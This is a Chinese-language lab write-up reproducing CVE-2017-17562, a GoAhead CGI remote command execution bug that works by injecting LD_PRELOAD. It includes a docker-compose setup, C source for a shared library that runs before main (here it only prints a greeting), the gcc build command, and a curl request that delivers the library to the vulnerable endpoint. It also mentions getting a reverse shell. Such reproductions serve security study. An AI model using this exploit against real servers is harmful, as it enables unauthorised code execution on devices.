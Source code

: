 （CVE-2017-17562）GoAhead 远程命令执行漏洞
==========================================

一、漏洞简介
------------

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST
Body中，发送给`http://www.0-sec.org/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

二、漏洞影响
------------

GoAhead 3.6.5之前的版本（2.5.0 -- 3.6.4）

三、复现过程
------------

启动漏洞环境：

    docker-compose up -d

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

### 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux
PC编译即可。动态链接库源码：

    #include <unistd.h>

    static void before_main(void) __attribute__((constructor));

    static void before_main(void)
    {
        write(1, "Hello: World!\n", 14);
    }

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

    gcc -shared -fPIC ./payload.c -o payload.so

将payload.so作为post body发送：

    curl -X POST --data-binary @payload.so "http://www.0-sec.org:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 

可见，`Hello: world!`已被成功输出，说明我们的动态链接库中的代码已被执行：![1.png](./resource/(CVE-2017-17562)GoAhead远程命令执行漏洞/media/rId25.png)编译一个反弹shell的代码，成功反弹shell：![2.png](./resource/(CVE-2017-17562)GoAhead远程命令执行漏洞/media/rId26.png)
